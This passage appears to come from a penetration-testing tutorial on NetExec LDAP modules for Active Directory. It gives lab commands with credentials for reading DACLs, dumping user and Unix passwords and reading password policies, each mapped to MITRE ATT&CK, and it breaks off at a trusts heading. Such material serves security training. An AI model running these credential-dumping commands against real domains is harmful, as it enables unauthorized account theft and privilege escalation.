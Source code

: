 **Explanation**:

- -M daclread: Reads the DACL of the specified target.
- -o TARGET=Administrator ACTION=read: Specifies the target object (e.g., “Administrator”) and the action to be performed (read the DACL).

**MITRE ATT&CK Mapping**:

**T1074** – Data Staged (collecting information about DACLs for privilege escalation).

### Get User Passwords

**Purpose**: This command retrieves user passwords, which can be critical for offline cracking or further attacks.

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 -M get-userPassword
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhuMSm0_IoAEG7i2ThChRy11kA9vkmcfTvLjThsTEoDDqetoGf01GnT5rQZJNmA1hll5deMOC3obxlB_SlF08NbGahteuE71PN1hxjCF6mQd3jRprf-8jF6anRWcfRpgLycCBHUC63bAejcsmyh0DX9DPN7Xg5lVObbfcig1HcK_nLk4t1vqq1OzddFSSAY/s16000/57.png)

**MITRE ATT&CK Mapping**:

**T1003** – OS Credential Dumping.

### Get Unix User Password

**Purpose**: This command retrieves passwords for Unix-based systems if integrated with AD. It is useful for assessing whether Unix accounts are vulnerable to attacks such as Pass-the-Hash.

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 -M get-unixUserPassword
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgfG0dQ1OONvQG3R6mliy2zrbl_Q_vTm25v8toE-5T-wr401EmbeRxGq_Vg37NxHLlvRPQDrxK169rCPVpdBU5ST_8r4cRdTZqIInapu7KRGK0YAew0KWnjcCTK2HCTRImrLONAer74TJOE4lLVDcynE8j3a2-pttjml5whh7OjrS2tRh74WlM-OK7y1zOp/s16000/58.png)

**MITRE ATT&CK Mapping**:

**T1003.003** – OS Credential Dumping: Unix.

### Password Settings Objects (PSO)

**Purpose**: This command retrieves the **Password Settings Objects** (PSO), which are used to define password policies in AD. If misconfigured, these could allow an attacker to bypass certain password requirements.

```bash
nxc ldap 192.168.1.48 -u administrator -p Ignite@987 -M pso
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEialbuLjLL1JPhN8BHx3MnvgNsiekBAmsjGxNCSV6Q9TNuSJ5C00ZipiYiLJxGVlpcLBVG0dNVcJ5YbtBX-m9kxPyAdNtv_LRjG75PLyJY3SwYuQ3L2qU-IGU_21FR6LO60iKu-NjlvANvlkdYdd-z20cuR71oKD_nDtbCX7X_hkkf0pPqeb36K3-usIfq8/s16000/59.png)

**MITRE ATT&CK Mapping**:

**T1071** – Application Layer Protocol: LDAP (retrieving password policies).

### Trusts Enumeration

